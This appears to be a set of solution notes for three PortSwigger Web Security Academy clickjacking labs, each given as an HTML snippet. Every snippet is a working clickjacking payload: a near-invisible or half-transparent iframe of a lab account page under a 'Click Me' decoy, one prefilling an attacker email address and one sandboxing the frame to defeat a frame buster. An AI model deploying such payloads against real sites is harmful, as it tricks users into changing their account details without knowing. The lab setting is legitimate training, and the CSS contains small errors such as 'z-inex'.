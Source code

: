 # Clickjacking

- **Lab: Basic clickjacking with CSRF token protection**
    
    ```html
    <style>
    iframe{
    	position:relative;
    	width: 1920;
    	height: 720;
    	opacity: 0.0001;
    	z-inex: 2;
    }
    p{
    	position: absolute;
    	top: 550;
    	left: 450;
    	z-index: 1;
    }
    </style>
    <p>Click Me</p>
    <iframe src='https://0a7d008e042e5d36807c0356000e008a.web-security-academy.net/my-account'></iframe>
    ```
    
- **Lab: Clickjacking with form input data prefilled from a URL parameter**
    
    ```html
    <style>
    iframe{
    	position:relative;
    	width: 1380;
    	height: 600;
    	opacity: 0.5;
    	z-inex: 2;
    }
    p{
    	position: absolute;
    	top: 475;
    	left: 170;
    	z-index: 1;
    }
    </style>
    <p>Click Me</p>
    <iframe src="https://0aac00ee0342211c80d5032c003e0087.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
    ```
    
- **Lab: Clickjacking with a frame buster script**
    
    ```html
    <style>
    iframe{
    	position:relative;
    	width: 1380;
    	height: 600;
    	opacity: 0.5;
    	z-inex: 2;
    }
    p{
    	position: absolute;
    	top: 475;
    	left: 170;
    	z-index: 1;
    }
    </style>
    <p>Click Me</p>
    <iframe sandbox="allow-forms" src="https://0aac00ee0342211c80d5032c003e0087.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
    ```